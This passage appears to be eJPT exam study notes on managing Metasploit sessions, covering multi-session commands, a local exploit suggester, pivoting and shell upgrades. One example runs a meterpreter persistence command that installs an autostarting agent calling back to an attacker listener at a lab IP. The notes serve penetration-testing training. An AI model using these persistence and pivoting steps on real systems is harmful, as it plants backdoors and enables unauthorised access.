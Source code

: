 ### Example 4: Advanced Multi-Session Scripting
```bash
# Phase 1: Execute commands across all sessions
msf6 > sessions -c "getuid"
# [*] Running 'getuid' on meterpreter session 1 (192.63.4.3)
# Server username: www-data

# Phase 2: Run post-exploitation modules on active sessions
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf6 post(multi/recon/local_exploit_suggester) > run

# Phase 3: Session persistence and management
msf6 > sessions -i 1
meterpreter > run persistence -X -i 60 -p 4445 -r 192.63.4.2
# [*] Creating a persistent agent: LHOST=192.63.4.2 LPORT=4445 (timeout=20)
```

## 🎯 eJPT Exam Focus

### Essential Skills for eJPT (85% Exam Coverage):
- **Session Backgrounding** (25% importance) - Multitask between different exploitation phases
- **Session Switching** (20% importance) - Navigate between multiple compromised systems
- **Shell Management** (20% importance) - Control command line access effectively
- **Session Persistence** (20% importance) - Maintain access during extended testing

### Critical Commands to Master:
```bash
# Session management workflow
sessions -l                    # Always check active sessions first
sessions -i session_number     # Access specific session by ID
background                     # Background current session for multitasking
sessions -k session_number     # Clean up unnecessary sessions
sessions -u session_number     # Upgrade shell to meterpreter when possible
```

### eJPT Exam Scenarios:
1. **Multi-Target Exploitation Scenario:**
   - Required skills: Parallel session management, target switching
   - Expected commands: `background`, `sessions -i`, `sessions -l`
   - Success criteria: Maintain simultaneous access to multiple systems

2. **Network Pivoting Management Scenario:**
   - Required skills: Session backgrounding, routing configuration, scanner execution
   - Expected commands: `background`, `run autoroute`, `sessions -i`
   - Success criteria: Manage pivot sessions while performing network discovery

3. **Shell Upgrade and Control Scenario:**
   - Required skills: Session type conversion, command execution control
   - Expected commands: `sessions -u`, `shell`, background operations
   - Success criteria: Effective transition between shell and meterpreter modes
